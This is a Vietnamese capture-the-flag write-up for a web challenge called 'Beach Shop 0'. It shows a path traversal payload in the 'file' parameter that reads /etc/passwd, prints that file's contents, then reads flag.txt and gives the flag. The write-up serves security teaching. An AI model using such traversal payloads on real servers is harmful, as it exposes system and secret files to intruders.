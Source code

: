 # VSL Summer CTF

<img src="https://github.com/Thuanle2401/VSL-CTF/blob/main/web/UploadFile1/images/VSL-summer.png?raw=true" width="500" height="300">

---
# Challenge: Beach Shop 0
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Thông tin Challenge:
- Link: http://61.14.233.78:5000
- Tính năng: Đọc nội dung hình ảnh (về đồ bơi) ở phía server và hiển thị cho người dùng.

## 3. Solution:
- Ta có thể đoán được việc trang web đọc nội dung của file ở server sau đó hiển thị phía client. Vậy sẽ ra sao nếu ta lợi dụng tính năng này để server đọc một nội dung của 1 file bất kì và hiện thị cho phía client.

- Tại url: http://61.14.233.78:5000/images?file=swimming_goggles.jpg có 1 param là `file` và có giá trị `swimming_goggles.jpg`, ta thử thay giá trị của param này bằng `../../../../../../../../../etc/passwd` và có vẻ như server cho ta download file `passwd`.

![img](./image/1.png)

- Ta sẽ thử đọc nội dung của file `passwd`:
<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
</pre>

- Từ những điều trên, ta có thể kết luận rằng server đã bị **Path Traversal**, loại lỗi cho phép kẻ tấn công có thể thao túng được file path của chương trình và trong trường hợp này kẻ tấn công có thể đọc bất kì nội dung của 1 file nào đó trên server.

- Bây giờ, ta chỉ cần đọc nội dung flag và giải được challenge, thay giá trị của param `file` thành `../../../../../../../../../flag.txt` và ta nhận được flag là: `VSL{b34ch_sh0p4th_tr4v3rs4l_2idmwiq9@39!}`







